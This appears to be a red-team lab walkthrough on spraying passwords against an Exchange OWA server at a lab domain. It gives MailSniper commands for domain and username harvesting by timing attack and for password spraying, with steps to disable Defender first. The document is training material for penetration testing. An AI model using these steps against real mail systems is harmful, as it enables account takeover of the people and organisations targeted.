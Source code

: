 # Initial Compromise

Attack the OWA Exchange service at mail.cyberbotic.io.

## Password Spraying

Tools for password spraying against Office 365 and Exchange:
* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [namemash](https://gist.github.com/superkojiman/11076951)

On Attacker Desktop:
  1. Disable Defender's Real-time protection
  2. Download [MailSniper](https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1)
  3. In an Admin PS, run ```Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope LocalMachine```
  4. In a standard PS, import MailSniper: ```ipmo C:\Tools\MailSniper\MailSniper.ps1```
  5. ```Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io```  // gives NetBIOS name of domain
  6. Generate possible usernames from names at [https://www.cyberbotic.io/our-team](https://www.cyberbotic.io/our-team):
    5. ```cd /mnt/c/Users/Attacker/Desktop/```
    6. ```cat names.txt```:
        * Bob Farmer
        * Isabel Yates
        * John King
        * Joyce Adams
    8. Use [namemash](https://gist.github.com/superkojiman/11076951) to generate usernames (if format isn't already known): ```~/namemash.py names.txt > possible.txt```
  9. ```Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt```  // validates usernames using timing attack
  10. Use [MailSniper](https://github.com/dafthack/MailSniper) to spray passwords against valid accounts (beware of login lockouts!):
  11. ```Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022```


 


